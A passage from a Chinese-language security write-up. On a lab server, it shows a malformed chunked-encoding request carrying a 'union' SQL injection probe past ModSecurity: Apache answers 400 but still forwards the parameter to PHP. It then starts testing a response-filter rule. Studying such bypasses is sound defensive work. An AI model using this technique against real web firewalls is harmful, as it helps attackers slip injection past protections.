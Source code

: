 可以看到我们的“union”关键字被拦截了。

接下来我们传输一个畸形的分块数据包看看。

```
请求:
POST /sql.php?id=2%20union HTTP/1.1
......
Transfer-Encoding: chunked

1
aa
0
(两个换行)


返回:
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
========GET==========
Array
(
   [id] => 2 union
)
========POST==========
Array
(
)
```

可以看到虽然apache报错了，但是因为apache容错很强，所以我们提交的参数依然传到了php，而我们的ModSecurity并没有处理400错误的数据包，最终绕过了ModSecurity。

接下来我们把ModSecurity的规则改为过滤返回数据中包含“root”的字符串，然后在sql.php脚本中加入打印“root”关键字的代码。

接着我们做如下测试：

```
请求：
http://10.10.10.10/sql.php?id=1

返回:
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /sql.php
on this server.</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
```
